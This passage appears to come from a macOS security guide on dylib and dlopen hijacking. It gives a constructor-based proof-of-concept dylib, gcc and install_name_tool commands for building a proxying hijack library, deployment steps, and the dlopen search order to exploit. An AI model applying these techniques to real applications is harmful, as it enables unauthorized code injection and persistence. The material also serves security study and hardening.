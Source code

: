 #### 5.4.3 Verifying Code Signing
```bash
codesign -dv --entitlements - <binary>
```
- Check for hardened runtime flag (prevents most injections)
- Check for library validation flag (requires dylibs to be signed by same team)
- Look for entitlements like com.apple.security.cs.disable-library-validation

### 5.5 Implementing Dylib Hijacking

#### 5.5.1 Basic Implementation
```c
#include <stdio.h>
#include <syslog.h>

__attribute__((constructor))
static void custom(int argc, const char **argv)
{
  NSLog(@"Dylib hijack successful in %s", argv[0]);
}
```

#### 5.5.2 Re-exporting Symbols (Proxying)
```bash
# Compile with re-export
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 \
    -framework Foundation hijack.m \
    -Wl,-reexport_library,/path/to/original.dylib \
    -o hijack.dylib

# Fix re-export path if using @rpath
install_name_tool -change @rpath/original.dylib /absolute/path/to/original.dylib hijack.dylib
```

#### 5.5.3 Deployment
- Place dylib in the target location
- Ensure proper permissions
- Original application will load the malicious dylib instead

### 5.6 dlopen Hijacking

#### 5.6.1 dlopen Search Behavior
When dlopen is called with just a filename (no path):
1. $DYLD_LIBRARY_PATH directories (if set and allowed)
2. LC_RPATH directories (from the main executable or calling library)
3. Current working directory (if unrestricted)
4. $DYLD_FALLBACK_LIBRARY_PATH directories (if set and allowed)
5. /usr/local/lib (if unrestricted)
6. /usr/lib

#### 5.6.2 Exploiting dlopen
- Identify applications that use dlopen with relative paths
- Place malicious dylib in a location earlier in the search order
- Use fs_usage to monitor actual search paths:
  ```bash
  sudo fs_usage | grep <library_name>
  ```
